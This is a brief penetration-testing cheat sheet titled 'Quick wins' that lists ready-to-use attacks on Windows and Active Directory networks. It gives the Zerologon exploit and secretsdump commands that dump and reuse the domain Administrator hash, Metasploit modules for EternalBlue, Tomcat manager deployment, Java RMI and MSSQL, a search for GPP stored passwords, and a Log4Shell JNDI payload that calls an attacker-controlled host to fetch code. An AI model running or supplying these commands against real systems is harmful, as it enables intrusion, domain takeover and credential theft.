 ### Quick wins
zerologon (unsafe) - (CVE-2020-1472)

python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>

Eternal Blue
MS17-010
	exploit/windows/smb/ms17_010_eternalblue

SYSVOL & GPP
MS14-025
	use scanner/smb/smb_enum_gpp
	findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

tomcat/jboss manager
	auxiliary/scanner/http/tomcat_enum
exploit/multi/http/tomcat_mgr_deploy

java rmi
	exploit/multi/misc/java_rmi_server

java serialized port
	ysoserial

vulnerable product with cve
	searchsploit

log4shell
	${jndi:ldap://<ip>:<port>/o=reference}
		rogueJndi-1.0.jar

database credentials
	use admin/mssql/mssql_enum_sql_logins

